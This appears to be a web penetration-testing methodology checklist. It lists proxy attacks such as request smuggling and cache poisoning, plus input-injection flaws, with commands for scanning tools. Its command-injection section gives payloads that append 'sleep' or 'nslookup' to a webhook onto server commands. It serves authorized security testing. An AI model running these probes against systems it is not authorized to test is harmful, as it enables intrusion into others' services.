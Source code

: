 # Methodology

## Proxies
- ☐ Abusing hop-by-hop headers
```bash
// Tool hbh-header-abuse-test
for HEADER in $(cat /usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers); do python3 hbh-header-abuse-test.py -u <url> -x "$HEADER" -v; :'sleep 1'; done
```
- ☐ Cache Poisoning/Cache Deception
```bash
// Tool Web-Cache-Vulnerability-Scanner
go install -v github.com/Hackmanit/Web-Cache-Vulnerability-Scanner@latest
cp go/Web-Cache-Vulnerability-Scanner tools/Web-Cache-Vulnerability-Scanner/wcvs
cd tools/Web-Cache-Vulnerability-Scanner/
./wcvs -u <url> -hw wordlists/headers -pw wordlists/parameters -f
```
- ☐ HTTP Request Smuggling 
```bash
// Burp - HTTP Request Smuggler
- Right click on a request and click Extensions > HTTP HTTP Request Smuggler > Smuggle Probe.

// Tool Smuggler by gwen001
wget https://raw.githubusercontent.com/gwen001/pentest-tools/master/smuggler.py
python3 smuggler.py -u <url> -v 3
```
- ☐ H2C Smuggling
```
// Tool h2csmuggler
python3 h2csmuggler.py -x <url> -t --threads 5 -v
```
- ☐ Uncovering Cloudflare
- ☐ XSLT Server Side Injection

## User input
### Reflected Values
- ☐ Client Side Template Injection (Like SSTI)
- ☐ Command Injection
```
// Tool commix
commix -r <REQUESTFILE> -p <TEST_PARAMETER>

// Test delay
original_cmd_by_server;sleep+5
original_cmd_by_server&&sleep+5
original_cmd_by_server|sleep+5
original_cmd_by_server||sleep+5

// Test when no effect on the application's response
original_cmd_by_server;nslookup+<webhook>
```
- ☐ CRLF
```
// Tool crlfuzz
crlfuzz -u <url>
```
- ☐ Dangling Markup
- ☐ File Inclusion/Path Traversal
- ☐ Open Redirect
- ☐ Prototype Pollution to XSS
- ☐ Server Side Inclusion/Edge Side Inclusion (Detected by Burp Scanner)
- ☐ Server Side Request Forgery
- ☐ Server Side Template Injection
- ☐ Reverse Tab Nabbing
- ☐ XSLT Server Side Injection
- ☐ XSS
- ☐ XSSI
- ☐ XS-Search

